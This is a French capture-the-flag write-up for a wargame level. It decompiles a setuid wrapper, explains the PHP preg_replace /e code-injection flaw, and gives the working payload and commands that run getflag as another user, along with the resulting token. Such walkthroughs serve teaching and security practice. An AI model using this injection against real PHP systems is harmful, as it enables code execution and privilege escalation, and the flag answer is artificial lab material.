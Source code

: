 # [level06]

### Observations

##### Je décompile le programme '~/level06':
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	const char	**v3;
	char		*v4;
	char		*v5;
	__uid_t		v7;
	__gid_t		v8;
	char		**v9;
	char		*v10[11];

	v10[7] = (char *)&argc;
	v3 = argv;
	v9 = (char **)envp;
	v4 = strdup(&s);
	v5 = strdup(&s);
	if ( v3[1] )
	{
		free(v4);
		v4 = strdup(v3[1]);
		if ( v3[2] )
		{
			free(v5);
			v5 = strdup(v3[2]);
		}
	}
	v8 = getegid();
	v7 = geteuid();
	setresgid(v8, v8, v8);
	setresuid(v7, v7, v7);
	v10[2] = v4;
	v10[3] = v5;
	v10[0] = "/usr/bin/php";
	v10[1] = "/home/user/level06/level06.php";
	v10[4] = 0;
	execve("/usr/bin/php", v10, v9);
	return 0;
}
```

##### J'affiche le programme '~/level06.php':
```php
#!/usr/bin/php
<?php
function y($m)
{
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}
function x($y, $z)
{
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

##### Détails des programmes:
```bash
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

##### Entrées du programme '~/level6'
```c
char *chemin_fichier
```

##### Fonctionnement:
Il y a deux programmes:
 1. Le premier est un programme c qui execute un script php '~/level06.php' avec les droit de l'utilisateur 'flag06'.
 2. Le deuxieme applique un motif regex '/(\[x (.*)\])/e' qui transforme le contenue du fichier par le contenu du deuxieme argument après l'avoir évalué.

##### Conclusions:
La fonction de remplacement de motif regex preg_replace avec le parametre '/e' est connue pour avoir des failles. \
En effet le parametre permet d'exécuter du code php. \
Je peux donc exécuter du code shell librement.

### Résolution
Je créé un fichier qui contient mon injection de code, puis je passe le chemin d'acces de ce dernier au programme '~/level6'. \
Le contenue de la deuxieme couche de regex est evaluée en php car l'opérateur '/e' est utilisé. \
Le parseur php execute ensuite 'getflag' car il est entouré par les caractéres '`'. \
J'exécute ensuite le programme.

#### commandes:
```bash
echo '[x ${`getflag`}]' >/tmp/script
./level06 /tmp/script
```

**token :** wiok45aaoguiboiki2tuin6ub
